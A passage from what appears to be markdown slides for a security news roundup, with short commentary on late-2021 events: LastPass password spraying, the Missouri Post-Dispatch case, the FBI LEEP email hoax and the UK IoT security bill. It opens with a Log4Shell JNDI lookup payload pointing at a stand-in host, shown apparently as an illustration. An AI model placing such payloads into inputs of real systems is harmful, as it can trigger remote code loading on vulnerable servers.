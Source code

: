 ```${jndi:ldap://example.com/file}```
---

### 2021-12-29: LastPass Non-Breach (Spraying)
<img src="https://memegenerator.net/img/instances/68155132.jpg"
	style="height:400px; border-radius:15px;" />

--

https://www.zdnet.com/article/lastpass-vp-says-no-indication-that-accounts-compromised-or-credentials-harvested-after-reports/

LastPass accounts were being popped -- or at least master passwords guessed, leading to a breach scare.  LastPass investigated and looks like just heavy password spraying attacks.

---

### 2021-12-30: Parson says he believes prosecutor will bring charges in Post-Dispatch case (MO)
<img src="https://ih1.redbubble.net/image.2872822621.2617/ssrco,slim_fit_t_shirt,two_model,fafafa:ca443f4786,front,square_three_quarter,1000x1000.jpg"
	style="height:400px; border-radius:15px;" />

--

https://www.stltoday.com/news/local/govt-and-politics/parson-says-he-believes-prosecutor-will-bring-charges-in-post-dispatch-case/article_c4d88dae-fbf7-565f-a96c-e3589a626273.html

Yes, this is still going on.  "Gov. Mike Parson on Wednesday, Dec. 29, 2021, said he was confident a Cole County prosecutor will bring charges in the case of a Post-Dispatch reporter who alerted the state to a significant data vulnerability."

---

### 2021-11-13: Hoax Email Blast Abused Poor Coding in FBI Website

<img src="https://krebsonsecurity.com/wp-content/uploads/2021/11/fakefbiemail-768x191.png"
	style="height:400px; border-radius:15px;" />

--

https://krebsonsecurity.com/2021/11/hoax-email-blast-abused-poor-coding-in-fbi-website/

https://www.thedailybeast.com/was-fbi-email-hack-just-an-elaborate-troll-of-a-guy-named-vinny-troia

LEEP bug allowed for sending thousands of emails from ic.fbi.gov.  Thankfully, just used for LOLs.

---

### 2021-11-24: UK Product Security and Telecommunications Infrastructure Bill

<img src="https://rebekahehrichcole.files.wordpress.com/2016/10/giphy-3.gif?w=243"
	style="height:400px; border-radius:15px;" />

--

https://www.pentestpartners.com/security-blog/what-does-the-product-security-and-telecommunications-infrastructure-bill-mean-for-me/

IoT standards bill -- a good start?

* No default passwords
* Vendor MUST have a vulnerability disclosure policy
* Vendor MUST be transparent about how long the product will receive security updates

```